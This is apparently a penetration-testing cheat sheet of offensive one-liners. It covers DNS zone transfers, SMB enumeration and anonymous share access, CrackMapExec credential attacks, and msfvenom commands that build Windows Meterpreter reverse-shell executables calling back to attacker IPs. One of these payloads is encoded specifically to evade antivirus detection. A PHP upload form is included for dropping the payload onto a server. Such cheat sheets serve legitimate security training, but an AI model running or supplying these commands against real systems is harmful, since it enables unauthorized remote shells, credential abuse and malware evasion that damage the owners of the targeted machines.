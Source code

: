 
# Conduct a zone transfer with host command
host -t axfr foocampus.com 10.50.96.5

# enumerate smb 
nmblookup -A IP

# access smb anonymous account 
smbclient -L 10.130.40.70

# connecting to guest/anonymous smb share
smbclient \\\\IP\\SHARE_NAME

# download smb share file
mget FILE

# smb exploitation with crackMapExec
/home/user/Shared/Opt-Tools/crackMapExec/cme smb TARGET -u USER -p PASS

## REVERSE SHELLS AND PAYLOADS ##################################

# Create a Meterpreter Windows Reverse TCP payload with msfvenom 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.1.99 LPORT=1338 -f exe > shell.exe


# Encoding a msfvenom payload with 5 iterations of x86/shikata_ga_nai to avoid being  flagged as a malicious file  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1337 -f exe -e x86/shikata_ga_nai -i 5 > s.exe


# Upload a new Metasploit meterpreter payload executable using the following PHP code would provide us with a form we can use to upload our executable
<?php
if(isset($_POST["submit"])) {
$name = $_FILES['file_upload']['name'];
// Check for errors
if($_FILES['file_upload']['error'] > 0)
die('An error ocurred');
// Upload file
if(!move_uploaded_file($_FILES['file_upload']['tmp_name'],$name))
die('Error uploading');
die('File uploaded successfully.');
}?>
<form method='post' enctype='multipart/form-data'>
File: <input type='file' name='file_upload'>
<input type="submit" value="Upload Image" name="submit">
</form>

